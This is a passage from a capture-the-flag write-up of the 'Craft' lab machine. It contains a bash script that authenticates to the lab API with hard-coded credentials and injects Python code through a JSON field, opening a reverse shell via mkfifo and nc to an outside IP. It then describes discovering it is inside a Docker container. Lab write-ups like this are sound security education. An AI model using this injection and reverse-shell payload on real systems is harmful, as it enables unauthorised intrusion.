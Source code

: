 Here is the bash script I wrote (I'm sure the token extraction part can be improved):

```sh
#!/bin/bash

untrimmed=$(curl -k -s -u dinesh:4aUh0A8PbVJxgd -X GET "https://api.craft.htb/api/auth/login" -H  "accept: application/json" | cut -d':' -f2)
token=${untrimmed:1:-2}

curl -k -H "X-Craft-API-Token:$token" -X POST "https://api.craft.htb/api/brew/" --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv":"__import__(\"os\").system(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.13.39 8080 >/tmp/f\")"}' -H "Content-Type:application/json"
```

#### Getting out of docker

I thought I was inside the system but there was something weird going on: there was no user under `/home`, I was root and there was a `.dockerenv` file on `/`. I was inside a docker container!

First things first, I remembered that the API had that `settings.py` file which wasn't on the gogs repo but should be on the container. So I navigated to `/opt/app/craft_api/` and was able to read it:

*Contents of `settings.py`*

![Img](images/settings.png)
